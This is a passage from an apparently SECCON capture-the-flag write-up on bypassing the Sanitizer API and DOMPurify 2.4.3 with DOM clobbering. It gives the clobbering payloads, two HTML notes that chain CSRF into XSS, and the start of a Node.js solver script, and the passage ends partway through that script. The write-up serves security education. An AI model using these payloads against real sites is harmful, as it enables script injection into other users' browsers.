 
You could break Sanitizer API by DOM Clobbering!

Next, you need to break import maps or DOMPurify, but this part is easier than the above.

Read the source code of DOMPurify:

- https://github.com/cure53/DOMPurify/blob/2.4.3/dist/purify.es.js#L333-L338

```javascript
  if (!window || !window.document || window.document.nodeType !== 9) {
    // Not running in a browser, provide a factory function
    // so that you can pass your own Window
    DOMPurify.isSupported = false;
    return DOMPurify;
  }
```

If `window.document.nodeType` is clobbered, DOMPurify will stop defining `DOMPurify.sanitize`. Then, an error will occur in `DOMPurify.sanitize(input)` and the second fallback will be used.

The DOM Clobbering to break DOMPurify is:
```html
<img name="nodeType">
```

In summary, you can gain XSS by creating the following notes with CSRF.

First note:
```html
<form id="noteTmpl"></form>
<button name="content" form="noteTmpl">
  <form class="note">
    <input name="setHTML">
  </form>
  <p class="delete"></p>
</button>
<img name="nodeType">
```

Second note:
```html
<<img src=0 onerror="alert(1)">
```

### Solver

```javascript title="index.js"
const fastify = require("fastify")();
const fs = require("node:fs").promises;

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");
const LISTEN_PORT = "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const reportUrl = async (url) => {
  const res = await fetch(`${SECCON_BASE_URL}/report`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      url,
```